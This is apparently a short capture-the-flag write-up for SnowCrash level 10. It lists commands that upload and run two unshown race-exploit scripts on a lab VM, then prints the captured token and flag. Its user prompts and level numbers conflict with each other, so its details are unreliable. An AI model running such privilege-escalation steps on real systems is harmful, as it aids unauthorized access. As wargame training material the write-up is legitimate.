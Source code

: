 # Snow-crash - level10
## Find something
```bash
level09@SnowCrash:~$ ls
level09  token
```
* We spamm
```bash
scp -P 4242 level10/Ressources/*.sh level10@192.168.56.101:/tmp/.
chmod 777 /tmp/level10swap.sh
chmod 777 /tmp/level10exec.sh
/tmp/level10swap.sh &
/tmp/level10exec.sh &

```
* At this point we have the token
```bash
woupa2yuojeeaaed06riuj63c
```
* Getflag
```bash
level09@SnowCrash:/tmp$ su flag10
Password: 
Don't forget to launch getflag !
flag09@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```